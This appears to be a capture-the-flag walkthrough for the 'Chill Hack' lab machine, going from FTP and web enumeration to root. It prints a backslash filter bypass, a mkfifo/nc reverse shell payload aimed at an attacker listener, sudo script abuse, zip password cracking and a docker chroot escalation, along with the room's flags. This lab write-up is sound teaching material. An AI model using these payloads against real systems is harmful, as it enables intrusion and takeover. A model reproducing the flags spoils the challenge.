

# Chill Hack

## Description

Easy level CTF. Capture the flags and have fun!

## Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:
* 21 ftp
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.173
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## FTP

First, let's head to the ftp service since anonymous login is allowed. There is a file named `note.txt`. I downloaded it and read its content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ ftp $IP
Connected to 10.10.27.134.
220 (vsFTPd 3.0.3)
Name (10.10.27.134:user): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (90 bytes).
226 Transfer complete.
90 bytes received in 0.00 secs (44.2328 kB/s)
ftp> exit
221 Goodbye.
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ cat note.txt  
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
~~~

Ok, I guess there might be a way to execute commands on the machine via webpage.

## Web

Let's look for that directory that lets us execute commands. There is no `robots.txt`, so I ran `gobuster` on the webpage:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -x php,html,zip,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.134/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,zip,txt
[+] Timeout:                 10s
===============================================================
2021/10/28 02:07:23 Starting gobuster in directory enumeration mode
===============================================================
/about.html           (Status: 200) [Size: 21339]
/blog.html            (Status: 200) [Size: 30279]
/contact.php          (Status: 200) [Size: 0]    
/contact.html         (Status: 200) [Size: 18301]
/css                  (Status: 301) [Size: 310] [--> http://10.10.27.134/css/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.27.134/fonts/]
/images               (Status: 301) [Size: 313] [--> http://10.10.27.134/images/]
/index.html           (Status: 200) [Size: 35184]                                
/js                   (Status: 301) [Size: 309] [--> http://10.10.27.134/js/]    
/news.html            (Status: 200) [Size: 19718]                                
/secret               (Status: 301) [Size: 313] [--> http://10.10.27.134/secret/]
/team.html            (Status: 200) [Size: 19868]
~~~

`/secret` is the directory we're looking for. There is a filter that doesn't let us run commands but we can easily bypass it by adding `\` in the beginning or in the middle of the commands. For example I tried `\which \bash`

## Reverse Shell

So we can execute a payload to get a bash reverse shell:

This is the bash reverse shell paylaod:

~~~
\rm /tmp/f;mkfifo /tmp/f;\cat /tmp/f|/bin/sh -i 2>&1|\nc <YOUR IP> 4444 >/tmp/f
~~~

Start a listener and execute this payload and you'll get a reverse shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.27.134] 33560
/bin/sh: 0: can't access tty; job control turned off
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

The first thing I did was spawning a TTY shell using a pythone one-liner:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/html/secret$ 
~~~

## www-data -> apaar

Now we need to escalate to a real user on the machine. I ran `sudo -l` to check my sudo permissions:

~~~
www-data@ubuntu:/var/www/html/secret$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
~~~

We can run a bash script as user `apaar` and it is located in appar's home directory. Let's see what it does:

~~~bash
www-data@ubuntu:/var/www/html/secret$ cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
~~~

First, it asks for a name and saves it as variable `person` and then, it asks for a message, but as you can see, After getting the `msg` variable, it redirects it to `/dev/null`, so it means if the `msg` is a command, it should run it first and if we run the script as user apaar and set the `msg` to `/bin/bash` it should run bash as user `apaar` which means we get a shell as user apaar. Let's test it:

~~~
www-data@ubuntu:/home/apaar$ sudo -u apaar ./.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: blah
Hello user! I am blah,  Please enter your message: /bin/bash

id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
~~~

It worked!

## User Flag

Let's spawn a TTY shell and read the file `local.txt` which contains the user flag:

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
apaar@ubuntu:~$ cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
~~~

User Flag: `{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`

## apaar -> anurodh

Let's escalate to a more privileged user. To make things faster, I uploaded [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the target machine using a python server and set its permission to be executable and then ran it:

On my machine:
~~~
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

On the target machine:
~~~
$ wget http://<YOUR IP>/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
~~~

After linpeas was done, something took my attention. In `/var/www/files` there is a file named `hacker.php`. The content was interesting:

hacker.php
~~~html
<html>
<head>
<body>

	 
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>

</head>
</html>
~~~

"Look in the dark". There is an image included in this page. I moved it to my machine using `nc` to analyze it. The steps are as follows:

On my machine:
~~~
nc -lp 8888 > hacker-with-laptop_23-2147985341.jpg
~~~

On the target machine:
~~~
apaar@ubuntu:/var/www/files/images$ nc -w 3 10.9.2.173 8888 < hacker-with-laptop_23-2147985341.jpg
~~~

I thought that there might be a file inside it, so I used `steghide` to extract the file(s):

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
~~~

We were able to extract a zip file named `backup.zip`, but unfortunately it asks for a password to be exrtarcted:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password: 
   skipping: source_code.php         incorrect password
~~~

Let's try to crack its passwrod. First I used an additional tool called `zip2john` to change the format of the zip file to a format which is crackable by `john`. Then I caracked it using `john` and rockyou wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ zip2john backup.zip > backup.hash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: 2b chk, TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Chill_Hack/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)
1g 0:00:00:00 DONE (2021-10-28 05:17) 25.00g/s 409600p/s 409600c/s 409600C/s toodles..christal
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

The password to extract the zip file is `pass1word`. It extracted to a php file named `source_code.php`. Let's read the file:

~~~php
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username">  
			Email: <input type="email" name="email" placeholder="email">  
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?>   
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
~~~

This file reveals a username and a base64 encoded password:
* Username: Anurodh
* Password: !d0ntKn0wmYp@ssw0rd

I tried these creds to connect via ssh and they worked.

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `id` and I'm in a docker group. I confirmed this by running `docker images`:

~~~
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
anurodh@ubuntu:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        17 months ago       5.57MB
hello-world         latest              bf756fb1ae65        22 months ago       13.3kB
~~~

I looked up [GTFOBins](https://gtfobins.github.io/) and found a command that can possibly gain us the root access. I tried it and it worked:

~~~
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
~~~

## Root flag

Now let's spawn a TTY shell and head to `/root` to read the root flag:

~~~
# python3 -c "import pty;pty.spawn('/bin/bash')"
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@a8da82951ee9:/# cd /root
root@a8da82951ee9:~# ls
proof.txt
root@a8da82951ee9:~# cat proof.txt

					{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}

Congratulations! You have successfully completed the challenge.

         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  

--------------------------------------------Designed By -------------------------------------------------------
					|  Anurodh Acharya |
					---------------------

	               		     Let me know if you liked it.

Twitter
	- @acharya_anurodh
Linkedin
	- www.linkedin.com/in/anurodh-acharya-b1937116a

~~~

Root Flag: `{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learnedd something!

And have g00d one! : )